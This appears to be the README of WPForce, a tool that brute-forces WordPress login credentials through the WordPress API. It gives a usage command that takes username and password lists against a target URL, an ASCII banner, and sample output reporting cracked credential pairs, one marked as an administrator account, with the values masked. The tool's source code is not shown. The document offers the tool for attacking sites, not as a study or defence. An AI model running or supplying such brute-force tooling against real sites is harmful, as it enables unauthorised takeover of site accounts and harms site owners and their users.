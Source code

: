 # WPForce
Wordpress Brute Force Attack Tool
Last Updated: 2016-03-26

ABOUT: 
This tool uses the Wordpress API to brute force login credentials.

USAGE: $ python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com" 

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!  
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

